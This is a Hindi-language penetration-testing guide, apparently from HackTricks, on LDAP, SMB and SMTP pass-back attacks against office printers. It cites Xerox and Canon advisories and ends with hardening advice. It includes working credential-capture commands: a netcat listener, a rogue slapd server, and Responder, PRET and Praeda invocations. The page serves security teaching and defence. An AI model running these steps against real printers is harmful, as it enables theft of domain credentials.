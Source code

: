 # प्रिंटर्स में जानकारी

{{#include ../../banners/hacktricks-training.md}}

इंटरनेट पर कई ब्लॉग हैं जो **डिफ़ॉल्ट/कमजोर** लॉगिन क्रेडेंशियल्स के साथ LDAP के साथ प्रिंटर्स को कॉन्फ़िगर करने के खतरों को **उजागर करते हैं**। \
इसका कारण यह है कि एक हमलावर **प्रिंटर को एक धोखेबाज़ LDAP सर्वर के खिलाफ प्रमाणित करने के लिए धोखा दे सकता है** (आमतौर पर एक `nc -vv -l -p 389` या `slapd -d 2` पर्याप्त है) और प्रिंटर के **क्रेडेंशियल्स को स्पष्ट-टेक्स्ट में कैप्चर कर सकता है**।

इसके अलावा, कई प्रिंटर्स में **उपयोगकर्ता नामों के साथ लॉग** होंगे या यहां तक कि **डोमेन कंट्रोलर से सभी उपयोगकर्ता नामों को डाउनलोड करने में सक्षम हो सकते हैं**।

यह सब **संवेदनशील जानकारी** और सामान्य **सुरक्षा की कमी** प्रिंटर्स को हमलावरों के लिए बहुत दिलचस्प बनाती है।

इस विषय पर कुछ परिचयात्मक ब्लॉग:

- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)

---
## प्रिंटर कॉन्फ़िगरेशन

- **स्थान**: LDAP सर्वर सूची आमतौर पर वेब इंटरफ़ेस में पाई जाती है (जैसे *Network ➜ LDAP Setting ➜ Setting Up LDAP*)।
- **व्यवहार**: कई एम्बेडेड वेब सर्वर LDAP सर्वर संशोधनों की अनुमति देते हैं **बिना क्रेडेंशियल्स फिर से दर्ज किए** (उपयोगिता सुविधा → सुरक्षा जोखिम)।
- **शोषण**: LDAP सर्वर पते को एक हमलावर-नियंत्रित होस्ट पर रीडायरेक्ट करें और प्रिंटर को आपके साथ बाइंड करने के लिए *Test Connection* / *Address Book Sync* बटन का उपयोग करें।

---
## क्रेडेंशियल्स कैप्चर करना

### विधि 1 – नेटकैट लिस्नर
```bash
sudo nc -k -v -l -p 389     # LDAPS → 636 (or 3269)
```
छोटे/पुराने MFPs एक साधारण *simple-bind* को स्पष्ट पाठ में भेज सकते हैं जिसे netcat कैप्चर कर सकता है। आधुनिक उपकरण आमतौर पर पहले एक गुमनाम क्वेरी करते हैं और फिर बाइंड करने का प्रयास करते हैं, इसलिए परिणाम भिन्न होते हैं।

### विधि 2 – पूर्ण रॉग LDAP सर्वर (सिफारिश की गई)

क्योंकि कई उपकरण गुमनाम खोज *पहले* प्रमाणीकरण करने से पहले करते हैं, एक वास्तविक LDAP डेमन स्थापित करना बहुत अधिक विश्वसनीय परिणाम देता है:
```bash
# Debian/Ubuntu example
sudo apt install slapd ldap-utils
sudo dpkg-reconfigure slapd   # set any base-DN – it will not be validated

# run slapd in foreground / debug 2
slapd -d 2 -h "ldap:///"      # only LDAP, no LDAPS
```
जब प्रिंटर अपनी खोज करता है, तो आप डिबग आउटपुट में स्पष्ट-टेक्स्ट क्रेडेंशियल्स देखेंगे।

> 💡  आप `impacket/examples/ldapd.py` (Python rogue LDAP) या `Responder -w -r -f` का उपयोग करके LDAP/SMB के माध्यम से NTLMv2 हैश इकट्ठा कर सकते हैं।

---
## हाल की पास-बैक कमजोरियाँ (2024-2025)

पास-बैक *नहीं* एक सैद्धांतिक समस्या है - विक्रेता 2024/2025 में सलाह जारी करते रहते हैं जो इस हमले की श्रेणी का सटीक वर्णन करते हैं।

### Xerox VersaLink – CVE-2024-12510 & CVE-2024-12511

Xerox VersaLink C70xx MFPs का फर्मवेयर ≤ 57.69.91 ने एक प्रमाणित व्यवस्थापक (या जब डिफ़ॉल्ट क्रेड्स बने रहते हैं तो किसी को भी) को अनुमति दी:

* **CVE-2024-12510 – LDAP पास-बैक**: LDAP सर्वर पते को बदलना और एक खोज को ट्रिगर करना, जिससे डिवाइस हमलावर-नियंत्रित होस्ट को कॉन्फ़िगर की गई Windows क्रेडेंशियल्स लीक कर दे।
* **CVE-2024-12511 – SMB/FTP पास-बैक**: *स्कैन-टू-फोल्डर* गंतव्यों के माध्यम से समान समस्या, NetNTLMv2 या FTP स्पष्ट-टेक्स्ट क्रेड्स लीक करना।

एक सरल श्रोता जैसे:
```bash
sudo nc -k -v -l -p 389     # capture LDAP bind
```
या एक बागी SMB सर्वर (`impacket-smbserver`) क्रेडेंशियल्स को इकट्ठा करने के लिए पर्याप्त है।

### कैनन इमेजरनर / इमेजक्लास – सलाह 20 मई 2025

कैनन ने दर्जनों लेजर और MFP उत्पाद लाइनों में **SMTP/LDAP पास-बैक** कमजोरी की पुष्टि की। एक हमलावर जिसके पास प्रशासनिक पहुंच है, सर्वर कॉन्फ़िगरेशन को संशोधित कर सकता है और LDAP **या** SMTP के लिए संग्रहीत क्रेडेंशियल्स को पुनः प्राप्त कर सकता है (कई संगठन स्कैन-टू-मेल की अनुमति देने के लिए एक विशेषाधिकार प्राप्त खाता का उपयोग करते हैं)।

विक्रेता मार्गदर्शन स्पष्ट रूप से अनुशंसा करता है:

1. उपलब्ध होते ही पैच किए गए फर्मवेयर में अपडेट करें।
2. मजबूत, अद्वितीय प्रशासनिक पासवर्ड का उपयोग करें।
3. प्रिंटर एकीकरण के लिए विशेषाधिकार प्राप्त AD खातों से बचें।

---
## स्वचालित एन्यूमरेशन / शोषण उपकरण

| उपकरण | उद्देश्य | उदाहरण |
|------|---------|---------|
| **PRET** (प्रिंटर शोषण टूलकिट) | पोस्टस्क्रिप्ट/PJL/PCL दुरुपयोग, फ़ाइल-प्रणाली पहुंच, डिफ़ॉल्ट-क्रेड्स जांच, *SNMP खोज* | `python pret.py 192.168.1.50 pjl` |
| **Praeda** | HTTP/HTTPS के माध्यम से कॉन्फ़िगरेशन (पता पुस्तिकाओं और LDAP क्रेड्स सहित) को इकट्ठा करना | `perl praeda.pl -t 192.168.1.50` |
| **Responder / ntlmrelayx** | SMB/FTP पास-बैक से NetNTLM हैश कैप्चर और रिले करना | `responder -I eth0 -wrf` |
| **impacket-ldapd.py** | स्पष्ट-टेक्स्ट बाइंड्स प्राप्त करने के लिए हल्का बागी LDAP सेवा | `python ldapd.py -debug` |

---
## हार्डनिंग और पहचान

1. **पैच / फर्मवेयर-अपडेट** MFPs को तुरंत करें (विक्रेता PSIRT बुलेटिन की जांच करें)।
2. **कम-से-कम विशेषाधिकार सेवा खाते** – LDAP/SMB/SMTP के लिए कभी भी डोमेन एडमिन का उपयोग न करें; *पढ़ने-के-लिए* OU स्कोप तक सीमित करें।
3. **प्रबंधन पहुंच को प्रतिबंधित करें** – प्रिंटर वेब/IPP/SNMP इंटरफेस को एक प्रबंधन VLAN में रखें या ACL/VPN के पीछे।
4. **अप्रयुक्त प्रोटोकॉल को निष्क्रिय करें** – FTP, टेलनेट, कच्चा-9100, पुराने SSL सिफर।
5. **ऑडिट लॉगिंग सक्षम करें** – कुछ उपकरण LDAP/SMTP विफलताओं को syslog कर सकते हैं; अप्रत्याशित बाइंड्स को सहसंबंधित करें।
6. **असामान्य स्रोतों पर स्पष्ट-टेक्स्ट LDAP बाइंड्स की निगरानी करें** (प्रिंटर सामान्यतः केवल DCs से बात करते हैं)।
7. **SNMPv3 या SNMP को निष्क्रिय करें** – समुदाय `public` अक्सर उपकरण और LDAP कॉन्फ़िगरेशन लीक करता है।

---
## संदर्भ

- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)
- Rapid7. “Xerox VersaLink C7025 MFP पास-बैक हमले की कमजोरियां।” फरवरी 2025।
- कैनन PSIRT. “लेजर प्रिंटर और छोटे कार्यालय मल्टीफंक्शन प्रिंटर के लिए SMTP/LDAP पासबैक के खिलाफ कमजोरियों का शमन।” मई 2025।

{{#include ../../banners/hacktricks-training.md}}
